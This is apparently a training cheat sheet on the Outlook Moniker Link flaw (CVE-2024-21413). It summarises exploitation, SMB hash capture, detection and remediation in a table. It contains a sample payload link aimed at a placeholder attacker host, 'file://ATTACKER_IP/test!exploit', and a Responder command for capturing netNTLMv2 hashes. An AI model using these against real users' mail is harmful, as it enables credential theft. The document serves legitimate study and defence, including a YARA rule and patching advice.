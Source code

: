 # Cheatsheet - Moniker Link
| Topic           | Commands/Explanation |
|-----------------|-------------------------|
| **Exploitation** | Python (smtplib, email.mime) script to send HTML emails; `<a href="file://ATTACKER_IP/test!exploit">Click me</a>` moniker link; SMTP server for sending email; attacker & victim email addresses. |
| **SMB Listener** | Responder (`responder -I ens5`) for capturing `netNTLMv2`; Impacket server (alternative SMB listener). |
| **Detection**    | YARA rule (`cve-2024-21413.yar`) to detect `file://...!` moniker links in emails; Wireshark/tcpdump for capturing SMB/NTLM traffic; NTLM/`netNTLMv2` hashes. |
| **Remediation**  | Microsoft Office/Outlook patches (Feb 2024); block outbound SMB (TCP 445/139); safe cyber practices (don’t click unsolicited links, preview URLs, report suspicious emails). |
